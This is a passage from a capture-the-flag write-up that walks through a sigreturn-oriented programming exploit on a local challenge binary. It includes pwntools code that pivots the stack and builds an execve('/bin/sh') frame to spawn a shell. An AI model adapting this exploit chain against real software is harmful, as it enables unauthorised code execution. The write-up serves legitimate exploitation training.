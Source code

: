 After sending this, we need to send 15 bytes to stdin so that `rax` has value 15.
```python
p.send(b'A'*15) # to set rax = 15
```
Now, one more read syscall is done. This time, the input will be stored at 0x404000.
Moreover, the `rsp` is also changed to 0x404000. Thus, after completing the syscall, we return to the return address written at 0x404200.
This time, for return addresses, we do as before i.e. use read syscall to put 15 in `rax` followed by `syscall` for sigreturn syscall.
```python
payload = b'/bin/sh\x00' + cyclic(0x200-len(b'/bin/sh\x00')) # padding
payload += p64(0x401102) # return to reading to set rax = 15
payload += p64(0x40111c) # return to syscal after getting rax = 15
```
This time, we need to make the sigreturn frame to do a syscall. We have written `/bin/bash` at address 0x404000.
```python
frame1=SigreturnFrame()
frame1.rax=59 # execve syscall
frame1.rsi = 0 # argv
frame1.rdx=0 # envp
frame1.rdi=0x404000 # contains string /bin/sh
frame1.rip = 0x40111c
payload += bytes(frame1)
p.send(payload)
```
Now, again, we need to send 15 bytes to ensure a sigreturn syscall.
```python
p.send(b'A'*15)
p.interactive()
```
Now, we get the shell and we can print the flag now.

# Solution Script

Here is the solution script I made for the challenge.

```python
from pwn import *
context.log_level = 'debug'
elf = ELF('./a.out')
p = process('./a.out')

payload = b'A'*0x200 # padding
payload += p64(0x401102) # return to reading to set rax = 15
payload += p64(0x40111c) # return to syscal after getting rax = 15

context.arch = 'amd64'
frame0 = SigreturnFrame()
frame0.rax = 0 # read syscall
frame0.rdi = 0 # fd = 0
frame0.rsi = 0x404000 # writable section available
frame0.rsp = 0x404000
frame0.rdx = 0x500 # count
frame0.rip = 0x40111c # syscall instruction
payload += bytes(frame0)
p.send(payload)
sleep(1)
p.send(b'A'*15) # to set rax = 15
sleep(1)
### ALL REGISTERS REFRESHED

payload = b'/bin/sh\x00' + cyclic(0x200-len(b'/bin/sh\x00')) # padding
payload += p64(0x401102) # return to reading to set rax = 15
payload += p64(0x40111c) # return to syscal after getting rax = 15
```
